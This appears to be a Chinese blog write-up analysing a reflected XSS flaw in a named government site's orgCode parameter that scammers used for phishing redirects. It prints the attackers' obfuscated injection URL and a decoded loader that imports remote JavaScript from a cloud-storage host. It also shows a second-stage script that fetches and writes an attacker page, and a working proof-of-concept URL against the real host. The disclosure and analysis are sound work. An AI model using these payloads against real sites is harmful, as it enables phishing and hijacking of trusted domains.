 ```yaml
---
title: 政务网漏洞
date: 2023-04-08 13:28:14
categories:
    - study
    - web
tags: web
---
```


### 漏洞发现

朋友圈看到有骗人分享，链接是 `gov.cn`，通过政务网做跳板，绕过微信备案风控。

![朋友圈](1.jpg)

### 漏洞分析

抓包溯源链接为

```
https://xxxxxxxxx.gov.cn/jxzw/ncBmCity/getNcBmIndex.do?orgCode=%22%3B%7D%29%25%318%3Bi2%3D%27bjk%27%3Ba%3D%7B%27l%27%3Athis%2C%27k%27%3A%27%5C163etTimeout%27%2C%27r%27%3A%27a%27%2C%27t%27%3A%27%5C164o%5C142%27%7D%3Ba.l%5Ba.k%5D%28a.l%5Ba.r%2Ba.t%5D%28i2%2B%279ZG9jdW1lbnQNCm45LmRvY3VtZW50RWxlbWVudC5oaWRkZW49JzEnDQpuOS50aXRsZT0nTG9hZGluZy4uLicNCmltcG9ydCgnLy92MmxvYWQub3NzLWNuLXNoYW5naGFpLmFsaXl1bmNzLmNvbS9oejE1LmpzPz8%2Fd3g9Jyk%3D%27%2C1%29%29%25%318%3B%24%28function%28%29%20%7Bvar%20orgCode%20%3D%20%22&gdohll=cd1c3558c715249c11286cba506430c183efe2fcabf30dddaeff81be20aa1713abf60d#1680926768635
```

通过 `decodeURIComponent` 获取得

```
`https://xxxxxxxxx.gov.cn/jxzw/ncBmCity/getNcBmIndex.do?orgCode=";})%18;i2='bjk';a={'l':this,'k':'\\163etTimeout','r':'a','t':'\\164o\\142'};a.l[a.k](a.l[a.r+a.t](i2+'9ZG9jdW1lbnQNCm45LmRvY3VtZW50RWxlbWVudC5oaWRkZW49JzEnDQpuOS50aXRsZT0nTG9hZGluZy4uLicNCmltcG9ydCgnLy92MmxvYWQub3NzLWNuLXNoYW5naGFpLmFsaXl1bmNzLmNvbS9oejE1LmpzPz8/d3g9Jyk=',1))%18;$(function() {var orgCode = "&gdohll=cd1c3558c715249c11286cba506430c183efe2fcabf30dddaeff81be20aa1713abf60d#1680926768635`
```

一眼 `orgCode` 接口未限制，可以任意执行 js。

![漏洞发现](2.jpg)

### 代码分析

拆解分析后得知，

```js
"n9=document\r\nn9.documentElement.hidden='1'\r\nn9.title='Loading...'\r\nimport('//v2load.oss-cn-shanghai.aliyuncs.com/hz15.js???wx=')";
```

![漏洞分析](3.jpg)

注入后通过 `http://v2load.oss-cn-shanghai.aliyuncs.com/hz15.js???wx=` 载入远程代码

```
document.title="Loading...";document.documentElement.hidden=1;
(function(){
    var rmd = Math.random().toString(36).substr(2,7);
    var geUrl='//47__100__4__56/'+rmd+'?ref='+encodeURIComponent(location.href.split('#')[0]);
    var xhr=new XMLHttpRequest;xhr.onload=function(){var onhash=window.onhashchange;var h=xhr.responseText;var a=document.open("text/html","replace");a.write(h);a.close();window.onhashchange=onhash};
    xhr.open("GET",geUrl,!0);xhr.send();
})();
```

最终载入 `47__100__4__56` (阿里云上海) 服务器上的页面

尝试在 `orgCode` 带入不同入参后确认后端无任何过滤，直接返回前端输入导致漏洞

![漏洞尝试](4.jpg)

### 漏洞复现

所以可以通过构造字符串执行任意代码。
例如以下链接，弹出 `1`，并跳转 `baidu.com`

```
https://gzkfq.jxzwfww.gov.cn/jxzw/ncBmCity/getNcBmIndex.do?orgCode=%22;alert(1)%3Bwindow.location.href%3D%22http%3A%2F%2Fwww.baidu.com
```

